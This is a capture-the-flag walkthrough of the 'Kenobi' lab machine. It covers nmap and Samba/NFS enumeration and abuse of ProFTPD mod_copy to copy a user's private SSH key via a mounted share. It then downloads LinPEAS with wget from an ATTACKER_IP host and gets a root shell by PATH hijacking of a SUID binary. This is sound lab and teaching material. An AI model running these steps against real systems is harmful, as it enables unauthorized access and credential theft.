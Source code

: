 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

We start things off with a basic **Nmap** scan on the server. we can run 2 nmap scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that **7** ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 (Samba)**, **445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, **3** shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`. I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to authenticate.

We can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a text file: **log.txt**

**log.txt** was a **ProFTPD** configuration file which gave us a lot of interesting and potentially useful information about the server. Let's take note of this file for now.

Next, let's tackle port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to the **network file system (NFS)**. We can use nmap to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's revisit the **FTP** server.

The first thing we should do is to enumerate the version of ProFtpd running. To obtain the version, we can use `nc` to connect to the FTP server:

```
nc 10.10.243.180 21
```

From the response, we know that the ProFtpd version is **1.3.5**

---

Now that we know the version of ProFtpd running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit proftpd 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFtpd. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

From the **log.txt** file earlier, I found out that the **private SSH key** of the user, **kenobi**, can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can copy the private key over to this mount point, mount our local machine and use it to obtain the private key! This will then allow us to access the machine via SSH as the user kenobi.

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home folder to the **/var/tmp** folder on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the **/var/tmp** directory on the target machine by visting **/mnt/kenobiNFS/** on our local machine. We can then obtain the private key file:

![screenshot7](../assets/images/kenobi/screenshot7.png)

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions are set to be **read and write by owner only**. We can do this with `chmod`:

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. The room taught me how to use the `find` command to find files that have the SUID-bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to try using a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), to speed things up.

To transfer linpeas over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the **linpeas.sh** script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port **8000**. Next, on the target machine, I used `wget` to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting file that had its SUID-bit set - **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running the menu binary, we come across some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set).

Using the command `strings`, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. not using `/usr/bin/curl` or `/usr/bin/uname`).

Hence, we can manipulate our **PATH** to exploit this fact and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is accessible by all users:

```
chmod 777 curl
```

Next, we put its location into our **PATH**. In my case, since I created the `curl` file in **/tmp**, I'll add that directory into the PATH:

```
export PATH=/tmp:$PATH
```

Now, when `/usr/bin/menu` is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in **/tmp** first, and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from the **/root**.





